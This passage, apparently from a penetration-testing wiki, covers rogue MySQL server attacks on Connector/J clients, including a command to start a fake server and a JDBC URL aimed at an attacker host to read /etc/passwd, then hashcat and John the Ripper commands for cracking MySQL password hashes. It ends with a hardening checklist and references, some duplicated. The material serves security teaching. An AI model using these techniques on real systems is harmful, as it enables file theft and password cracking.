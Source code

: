 ```
* **rogue_mysql_server** (Python, similar capabilities)

Typical attack paths:

1. Victim application loads `mysql-connector-j` with `allowLoadLocalInfile=true` or `autoDeserialize=true`.
2. Attacker controls DNS / host entry so that the hostname of the DB resolves to a machine under their control.
3. Malicious server responds with crafted packets that trigger either `LOCAL INFILE` arbitrary file read or Java deserialization → RCE.

Example one-liner to start a fake server (Java):

```bash
java -jar fake-mysql-cli.jar -p 3306  # from 4ra1n/mysql-fake-server
```
```
Then point the victim application to `jdbc:mysql://attacker:3306/test?allowLoadLocalInfile=true` and read `/etc/passwd` by encoding the filename as base64 in the *username* field (`fileread_/etc/passwd` → `base64ZmlsZXJlYWRfL2V0Yy9wYXNzd2Q=`).

### Cracking `caching_sha2_password` hashes
MySQL ≥ 8.0 stores password hashes as **`$mysql-sha2$`** (SHA-256). Both Hashcat (mode **21100**) and John-the-Ripper (`--format=mysql-sha2`) support offline cracking since 2023. Dump the `authentication_string` column and feed it directly:

```bash
# extract hashes
echo "$mysql-sha2$AABBCC…" > hashes.txt
# Hashcat
hashcat -a 0 -m 21100 hashes.txt /path/to/wordlist
# John the Ripper
john --format=mysql-sha2 hashes.txt --wordlist=/path/to/wordlist
```
```
### Hardening checklist (2025)
• Set **`LOCAL_INFILE=0`** and **`--secure-file-priv=/var/empty`** to kill most file-read/write primitives.  
• Remove the **`FILE`** privilege from application accounts.  
• On Connector/J set `allowLoadLocalInfile=false`, `allowUrlInLocalInfile=false`, `autoDeserialize=false`, `propertiesTransform=` (empty).  
• Disable unused authentication plugins and **require TLS** (`require_secure_transport = ON`).  
• Monitor for `CREATE FUNCTION`, `INSTALL COMPONENT`, `INTO OUTFILE`, `LOAD DATA LOCAL` and sudden `SET GLOBAL` statements.

---

## References
- [[https://labs.watchtowr.com/pre-auth-sql-injection-to-rce-fortinet-fortiweb-fabric-connector-cve-2025-25257/|Pre-auth SQLi to RCE in Fortinet FortiWeb (watchTowr Labs)]]
- [[https://security.snyk.io/vuln/SNYK-JAVA-COMMYSQL-5441540|Oracle MySQL Connector/J propertiesTransform RCE – CVE-2023-21971 (Snyk)]]
- [[https://github.com/4ra1n/mysql-fake-server|mysql-fake-server – Rogue MySQL server for JDBC client attacks]]
- [[https://blog.orange.tw/posts/2025-08-the-art-of-php-ch/|The Art of PHP: CTF‑born exploits and techniques]]


- [[https://labs.watchtowr.com/pre-auth-sql-injection-to-rce-fortinet-fortiweb-fabric-connector-cve-2025-25257/|Pre-auth SQLi to RCE in Fortinet FortiWeb (watchTowr Labs)]]

